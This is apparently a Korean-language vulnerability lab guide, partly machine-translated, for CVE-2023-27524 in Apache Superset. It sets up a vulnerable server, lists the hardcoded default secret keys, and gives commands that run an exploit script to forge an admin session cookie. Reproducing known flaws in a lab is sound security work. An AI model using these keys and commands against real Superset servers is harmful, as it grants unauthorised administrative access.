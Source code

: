Apache 슈퍼셋 하드코딩된 JWT 비밀 키로 인한 인증 우회(CVE-2023-27524)

환경구성 및 실행
Apache Superset 2.0.1 서버를 시작
docker compose up -d
서버가 시작되면 에서 Superset에 접속할 수 있습니다 http://your-ip:8088. 기본 로그인 정보는 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 SECRET_KEY.

- \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
- CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
- thisISaSECRET_1234(배포 템플릿)
- YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
- TEST_NON_DEV_SECRET(도커 컴포즈)
CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.

# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크래킹하려고 시도합니다. 성공하면 user_id=1(일반적으로 관리자 사용자)로 새 세션 쿠키를 위조하고 로그인을 검증합니다.

쿠키 값에 이 JWT 토큰을 사용하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.
